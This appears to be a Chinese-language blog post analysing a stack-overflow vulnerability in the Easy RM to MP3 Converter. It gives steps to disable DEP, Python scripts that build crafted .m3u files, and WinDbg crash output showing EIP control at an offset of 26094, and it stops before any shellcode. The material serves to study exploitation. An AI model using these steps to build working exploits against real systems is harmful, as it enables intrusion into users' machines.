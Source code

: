 ```yaml
---
title: EasyRM2MP3 栈溢出分析
date: '2018-08-14 17:50'
tags:
  - stack overflow
categories: Vulnerability Analysis
keywords:
  - stack overflow
  - EasyRM2MP3
translate_title: easyrm2mp3-stack-overflow-analysis
---
```


# 0x01 漏洞信息
Easy RM to MP3 Converter 是一款音频文件格式转换工具，根据 Exploit-DB 给出的[信息](https://www.exploit-db.com/exploits/9186/)可知，该工具在转换 .m3u 文件时存在栈溢出漏洞。此外，漏洞程序可在 Exploit-DB 中下载。

# 0x02 漏洞分析
调试环境如下：
>操作系统：Windows7 SP1 64 bits  
>调试器：Windbg 10.0.10586

由于 Windows7 系统默认开启 DEP 保护，利用该漏洞时，为了返回到栈上执行 shellcode，需要把系统 DEP 关闭。  
（1）“命令运行符” -> “以管理员身份运行”；  
（2）运行 bcdedit.exe/set {current} nx AlwaysOff；  
（3）重启计算机生效。

## 1. 漏洞复现
首先使用以下脚本生成一个 .m3u 文件。
```python
payload = 30000 * "A"
f = open("crash.m3u","w")
f.write(payload)
```
WinDbg 中直接运行程序，加载 crash.m3u 文件后将会触发栈溢出，此时 eip 寄存器值为 0x41414141。
```python
(ddc.10b0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00164a1c ecx=7701387a edx=00580600 esi=76942960 edi=00007530
eip=41414141 esp=0015f614 ebp=006031c8 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
41414141 ??              ???
```
使用 mona.py 插件可计算出覆盖 eip 所需要填充的字符数量为 26094，从而精确控制 eip 指向的地址。
```python
offset = 26094
payload = offset*"A" + "B"*4
f = open("crash.m3u","w")
f.write(payload)
```
再次运行程序并加载 crash.m3u 文件，可看到 eip 执行 0x42424242。
```python
(da0.ae0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00164a1c ecx=7701387a edx=00590600 esi=76942960 edi=000065f2
eip=42424242 esp=0015f614 ebp=005b31c8 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
42424242 ??              ???
```
